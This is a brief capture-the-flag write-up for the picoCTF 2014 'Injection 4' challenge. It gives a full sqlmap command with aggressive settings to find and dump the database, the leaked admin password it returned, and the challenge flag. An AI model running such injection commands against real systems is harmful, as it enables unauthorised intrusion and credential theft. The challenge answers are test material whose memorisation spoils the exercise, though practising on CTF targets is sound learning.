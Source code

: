 #Injection 4 - 150

For this problem, I fired up sqlmap (https://github.com/sqlmapproject) an automated SQL injection and database takeover tool. Using the followin command to find a vulnerability and enumerate the databse:
```
./sqlmap.py -u http://web2014.picoctf.com/injection4/ --forms --level=5 --risk=3 --batch --dump
```

Gave me the following information:

```
Database: sql4
Table: users
[1 entry]
+----+----------+-----------------------------+
| id | username | password                    |
+----+----------+-----------------------------+
| 1  | admin    | youllneverguessthispassword |
+----+----------+-----------------------------+
```

Logging in with the password revealed:

```
Logged in!

Your flag is: whereof_one_cannot_speak_thereof_one_must_be_silent
```